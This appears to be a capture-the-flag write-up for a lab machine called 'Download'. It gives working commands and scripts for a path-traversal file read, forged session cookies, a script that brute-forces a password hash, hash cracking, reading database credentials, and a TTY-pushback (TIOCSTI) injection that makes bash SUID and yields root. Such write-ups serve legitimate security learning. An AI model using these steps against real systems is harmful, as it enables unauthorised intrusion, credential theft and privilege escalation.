



# Table of Contents

1.  [Enumeration](#orgd111c96)
    1.  [HTTP](#org59db5ad)
2.  [Information Disclosure](#org8c4be67)
3.  [Foothold](#org0b6bbe0)
4.  [Privilage Escaletion](#org5f279dd)

# Enumeration

let's start whit a simple scan whit:

    nmap -p- --min-rate=1000 -sV 10.129.68.188
    Starting Nmap 7.94 ( https://nmap.org )
    Nmap scan report for 10.129.68.188
    Host is up (0.17s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT STATE SERVICE VERSION
    22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
    80/tcp open http nginx 1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

An initial Nmap scan reveals an **SSH** service on port `22` and an **Nginx server** on port `80`.

## HTTP

Upon browsing to port 80 , we are redirected to the domain `download.htb`.

Let's add an entry for `download.htb` to our `/etc/hosts` file with the corresponding IP address to resolve the domain names and allow us to access them in our browser.

    echo "10.129.68.188 download.htb" | sudo tee -a /etc/hosts

Upon visiting download.htb , we are greeted with the homepage of the "Download.htb"
application, which seems to allow users to upload and share files.

It also has the option to log in at `/auth/login`.

Let us register ouselves at `/auth/register` to explore the application's functionality.

we see a file upload page.

We do some tests with this but without success so we continue.

We check the portal and looking at the headers we see that it is `express`.

    curl -I http://download.htb                                                    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Sun, 19 Nov 2023 18:55:51 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 3409
    Connection: keep-alive
    X-Powered-By: Express
    ETag: W/"d51-5GzI9n7y7raS8vKB6fFHd40C4+U"
    Set-Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly
    Set-Cookie: download_session.sig=4kbZR1kOcZNccDLxiSi7Eblym1E; path=/; expires=Sun, 26 Nov 2023 18:55:51 GMT; httponly

# Information Disclosure

Now we can try to exploit by an `LFI` for obtain app.js

    curl --path-as-is "http://download.htb/files/download/..%2Fapp.js" -s -o app.js

We this command our obatined the file after mentioned

    "use strict";
    var __importDefault = (this && this.__importDefault) || function (mod) {
        return (mod && mod.__esModule) ? mod : { "default": mod };
    };
    Object.defineProperty(exports, "__esModule", { value: true });
    const express_1 = __importDefault(require("express"));
    const nunjucks_1 = __importDefault(require("nunjucks"));
    const path_1 = __importDefault(require("path"));
    const cookie_parser_1 = __importDefault(require("cookie-parser"));
    const cookie_session_1 = __importDefault(require("cookie-session"));
    const flash_1 = __importDefault(require("./middleware/flash"));
    const auth_1 = __importDefault(require("./routers/auth"));
    const files_1 = __importDefault(require("./routers/files"));
    const home_1 = __importDefault(require("./routers/home"));
    const client_1 = require("@prisma/client");
    const app = (0, express_1.default)();
    const port = 3000;
    const client = new client_1.PrismaClient();
    const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
        autoescape: true,
        express: app,
        noCache: true,
    });
    app.use((0, cookie_session_1.default)({
        name: "download_session",
        keys: ["<redact>"],
        maxAge: 7 * 24 * 60 * 60 * 1000,
    }));
    app.use(flash_1.default);
    app.use(express_1.default.urlencoded({ extended: false }));
    app.use((0, cookie_parser_1.default)());
    app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
    app.get("/", (req, res) => {
        res.render("index.njk");
    });
    app.use("/files", files_1.default);
    app.use("/auth", auth_1.default);
    app.use("/home", home_1.default);
    app.use("*", (req, res) => {
        res.render("error.njk", { statusCode: 404 });
    });
    app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
        console.log("Listening on ", port);
        if (process.env.NODE_ENV === "production") {
            setTimeout(async () => {
                await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
            }, 300000);
        }
    });

After revioned that we noticed an interesting things

    app.use((0, cookie_session_1.default)({
        name: "download_session",
        keys: ["<redact>"],
        maxAge: 7 * 24 * 60 * 60 * 1000,
    }));

The code snippet above shows the key used to `encrypt session cookies`, so perhaps we can use it to move forward.

Continuing whit `LFI` download a `package.json` a classic file in a `node app` often contian an user information.

    curl --path-as-is "http://download.htb/files/download/..%2Fpackage.json" -s -o app.js

We have obtain this whit information about the user, your name us `wesley`.

    {
      "name": "download.htb",
      "version": "1.0.0",
      "description": "",
      "main": "app.js",
      "scripts": {
        "test": "echo \"Error: no test specified\" && exit 1",
        "dev": "nodemon --exec ts-node --files ./src/app.ts",
        "build": "tsc"
      },
      "keywords": [],
      "author": "wesley",
      "license": "ISC",
      "dependencies": {
          "@prisma/client": "^4.13.0",
    <SNIP>

Now let's delve into what we know by going to take a closer look at `cookies`

this is a cookie

    eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==

Now let's decode this with:

    echo 'eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==' | base64 -d

and obtain taht:

    {"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"test123"}}

let's modify the coockie a bit and try signing our own with `cookie-monster`.
Cookie.json

    {"user": {"username": {"contains": "WESLEY"}}

    ./cookie-monster.js -e -f ~/CTF/HTB/Download/loots/cookie.json -k "<redact>" -n "download_session"
                   _  _
                 _/0\/ \_
        .-.   .-` \_/\0/ '-.
       /:::\ / ,_________,  \
      /\:::/ \  '. (:::/  `'-;
      \ `-'`\ '._ `"'"'\__    \
       `'-.  \   `)-=-=(  `,   |
           \  `-"`      `"-`   /
    
    [+] Data Cookie: download_session=<redact>
    [+] Signature Cookie: download_session.sig=<redact>

Instead, let us now try to automate with a `python script` and a particular `GraphQl querry` to look for the leak of the password hash

    #!/usr/bin/env python3
    import json, subprocess, re, string, requests
    
      regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"
    
      def writeJson(j):
          with open("cookie.json", "w") as f:
              f.write(json.dumps(j))
    
      def generateAndSign(startsWith):
          j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
          writeJson(j)
          out = subprocess.check_output(["./cookie-monster.js", "-e", "-f", "cookie.json", "-k", "<redacted>", "-n", "download_session"]).decode().replace("\n"," ")
          matches = re.findall(regex, out, re.MULTILINE)[0]
          return matches
    
      if __name__ == "__main__":
          passwd = ""
          alphabet="abcdef"+string.digits
    
          for i in range(32):
              for s in alphabet:
                  p = passwd + s
                  (download_session, sig) = generateAndSign(p)
                  cookie = {"download_session": download_session, "download_session.sig": sig}
                  print(p, end='\r')
                  r = requests.get('http://download.htb/home/', cookies=cookie)
                  if len(r.text) != 2174:
                      passwd = p
                      break
    
          print() 

# Foothold

whit this script we had obtain an `md5 pwd` so let's try to crack them with `HashCat`

    hashcat -a 0 -m 0 loots/hash 

and after to try logon in the system

    ssh wesley:<redacted>@download.htb

# Privilage Escaletion

Once inside, we checked the services and found an interesting one.

    systemctl list-unit-files | grep download

    cd /etc/systemd/system && cat download-site.service

So we review the interesting `service configuration` file

    [Unit]
    Description=Download.HTB Web Application
    After=network.target
    
    [Service]
    Type=simple
    User=www-data
    WorkingDirectory=/var/www/app/
    ExecStart=/usr/bin/node app.js
    Restart=on-failure
    Environment=NODE_ENV=production
    Environment=DATABASE_URL="postgresql://download:<redacted>@localhost:5432/download"
    
    [Install]
    WantedBy=multi-user.target

And we see in it the `postgres credentials`, so we connect to it.

    psql -h localhost -p 5432 -U download -W download

And now let's go and review the `database`.

    download => \l

The permission:

      download => \du
                                                List of roles
     Role name |                         Attributes                         |        Member of        
    -----------+------------------------------------------------------------+-------------------------
     download  |                                                            | {pg_write_server_files}
     postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}

We have an interesting `privilage`.

    pg_write_server_files

With the `pg_write_server_files` permission we can write to files so it will be our way to escalate privileges.

And if we check the `processes` we can see that the following command is executed as root every few minutes.

    su -l postgres

With which **root impersonates** the user postgrees so we can take advantage of it to exploit the `tty pushback` vulnerability and escalate to **root**.

    #!/usr/bin/env python3
    import fcntl
    import termios
    import os
    import sys
    import signal
    
    os.kill(os.getppid(), signal.SIGSTOP)
    
    for char in sys.argv[1] + '\n':
        fcntl.ioctl(0, termios.TIOCSTI, char)

And we run it from `postgres`.

    download=> COPY (SELECT CAST('/tmp/test.py "chmod u+s /bin/bash"' AS text)) TO '/var/lib/postgresql/.bash_profile'; 
    COPY 1

We wait a couple of minutes for `root` to re-execute the command and we will see that the bash binary has `suid permissions`.

    ls -l /bin/bash
    -rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

For escalete the privilage we can run this command and close the job!

    bash -p
    bash-5.0# id
    uid=1000(wesley) gid=1000(wesley) euid=0(root) groups=1000(wesley)

